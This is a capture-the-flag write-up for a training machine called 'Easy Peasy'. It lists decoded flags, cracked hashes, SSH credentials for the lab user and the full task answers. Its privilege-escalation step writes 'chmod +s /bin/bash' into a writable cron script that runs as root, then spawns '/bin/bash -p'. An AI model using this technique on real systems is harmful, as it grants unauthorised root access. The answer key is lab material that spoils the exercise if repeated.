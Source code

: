 # Easy Peasy-SSH crendential expose&cron jobs privilege escalation

```
export IP=10.10.124.136
```

# Material needed

1. Interesting directory: /hidden/whatever

2. Decode first flag

```
ZmxhZ3tmMXJzN19mbDRnfQ==

base64 decode
flag{f1rs7_fl4g} 
```

3. crack second flag

```
a18672860d0510e5ab6699730763b250

md5 hash
flag{1m_s3c0nd_fl4g}
```

4. Decode hidden directory

```
ObsJmP173N2X6dOrAgEAL0Vu

base62 decode
/n0th1ng3ls3m4tt3r
```

5. Crack passphrase password

```
940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd8

mypasswordforthatjob
```

6. SSH credential

```
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

7. Privilege escalation

```
cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh  --> interesting point


echo "chmod +s /bin/bash" >/var/www/.mysecretcronjob.sh

/bin/bash -p
```

# Tasks

1. How many ports are open? 3 

2. What is the version of nginx? 1.16.1

3. What is running on the highest port? Apache

4. Using GoBuster, find flag 1.

```
flag{f1rs7_fl4g}
```

5. Further enumerate the machine, what is flag 2?

```
flag{1m_s3c0nd_fl4g}
```

6. Crack the hash with easypeasy.txt, What is the flag 3?

```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

7. What is the hidden directory?

```
/n0th1ng3ls3m4tt3r
```

8. what is the password?

```
mypasswordforthatjob
```

9. What is the password to login to the machine via SSH?

```
iconvertedmypasswordtobinary
```

10. What is the user flag?

```
flag{n0wits33msn0rm4l}
```

11. What is the root flag?

```
flag{63a9f0ea7bb98050796b649e85481845}
```